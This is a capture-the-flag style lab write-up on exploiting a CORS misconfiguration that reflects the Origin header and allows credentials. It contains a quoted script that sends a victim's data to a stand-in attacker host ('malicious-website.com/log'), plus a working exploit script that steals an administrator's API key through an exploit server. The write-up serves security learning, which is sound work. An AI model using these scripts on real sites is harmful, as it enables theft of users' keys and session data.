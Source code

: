 ## Lab Description :

## Overview :

#### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an **API key** or **CSRF token**, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Solution :

#### Analysis -

First let's login as wiener using the credentials given - `wiener:peter`


Once logged in , we can see that there is an email update functionality & the **API key of wiener.**

In the HTTP history tab, we can see that the `GET` request to `/accountDetails` contains the **ACAC=true** header in its response.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a0532c0-a3a3-453b-8eee-94f4694af8b8)

**This meaans that if we can able to exploit CORS here then we can able to  get the session cookie, API key etc of the user.**

Note that there is no `Origin` header in the request that's why we don't see any `Access-Control-Allow-Origin` header too.

#### Explloiting CORS misconfiguration

If we try to provide `Origin: evil.com` , we can see that there is `Access-Control-Allow-Origin: evil.com` & `Access-Control-Allow-Credentials: true` in the response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/11dfe623-7b07-485c-9aab-3623aefe6b3d)


This means the server takes the Origin provided in the request and sends it back in the response with the header `Access-Control-Allow-Origin: true`.

Go to exploit server and paste the following code.

> NOTE - Uri to provide is `/accountDetails`

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

Deliver exploit to Victim & View Access-log, there we can find the API key of administrator.

```json
/log?key={  "username": "administrator",  "email": "",  "apikey": "FTTGVC2HkWwpvvUW54D6cMl9hup8oypH"
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d3425134-996c-481b-bd8a-ba8d23d09c92)


Finally we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c8adb12-7766-4883-9c84-fadd6030b615)






















